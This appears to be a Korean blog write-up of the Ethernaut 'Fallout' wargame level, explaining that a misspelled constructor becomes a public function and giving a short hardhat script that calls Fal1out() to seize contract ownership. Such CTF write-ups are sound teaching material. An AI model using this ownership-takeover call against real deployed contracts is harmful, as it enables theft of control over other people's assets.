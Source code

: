 +++
title = "Fallout"
date = "2023-08-18"
+++

---

> My Solutions: [github](https://github.com/c0np4nn4/EtherStudy/tree/main/ethernaut_solution)

---

# TL;DR
> ***constructor*** 에 대해 알고 있는지 묻는 문제입니다.

# Description
이전 문제처럼 `Factory` 컨트랙트의 `validate` 부분을 통해, 문제 해결 조건을 확인해보면 아래와 같습니다.

<center>
<img alt="Get an Instance" src="../../ethernaut_img/2_fallout_1.png" />
</center>

즉, ***owner***가 되면 문제를 푼 것입니다.

---

# Exploit

> `Fallout` 컨트랙트의 전문은 [Fallout Contract](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/Fallout.sol)에서 확인할 수 있습니다.

`Fallout` 컨트랙트를 유심히 보다보면 **이상한 부분**을 하나 발견할 수 있습니다.

<center>
<img alt="constructor" src="../../ethernaut_img/2_fallout_2.png" />
</center>

*l* 대신에 *1* 이 적혀있는 것을 확인할 수 있습니다. (`Fallout` != `Fal1out`)

`Fallout.sol`에서 명시하는 `Solidity Compiler 0.6.0`은 컨트랙트의 이름과 함수 이름이 같을 때, 이를 ***constructor()*** 로써 사용합니다.
하지만 지금은 이름이 다르기 때문에 <u>*그냥 평범한 public 함수*</u>가 됩니다.
따라서, `Fal1out()`을 호출하면 문제를 해결할 수 있습니다.

## script
아래와 같이 `fallout.js` 를 작성해 `hardhat` 으로 문제를 해결했습니다.
```js
const {ethers} = require('hardhat');

const CTRT_ADDR = "0x9bd03768a7DCc129555dE410FF8E85528A4F88b5"
const PLAYER_ADDR = "0x70997970C51812dc3A010C7d01b50e0d17dc79C8"

async function main() {
  const player = await ethers.getSigner(PLAYER_ADDR);
  const contract = await ethers.getContractAt(
    "Fallout",
    CTRT_ADDR,
    player
  );

  console.log("--[1] call Fal1out")
  await contract.Fal1out();

  console.log("++[2] check")
  let owner = await contract.owner()
  if (owner === player.address) {
    console.log("++[2] DONE");
  }

}

main().catch((error) => {
  console.error(error);
  process.exitCode = 1;
});
```

## 실행 결과

<center>
<img alt="Run script" src="../../ethernaut_img/2_fallout_3.png" />
</center>

<center>
<img alt="Done" src="../../ethernaut_img/2_fallout_4.png" />
</center>


<script src="https://utteranc.es/client.js"
        repo="c0np4nn4/utterance_repo"
        issue-term="pathname"
        label="utterances"
        theme="github-light"
        crossorigin="anonymous"
        async>
</script>


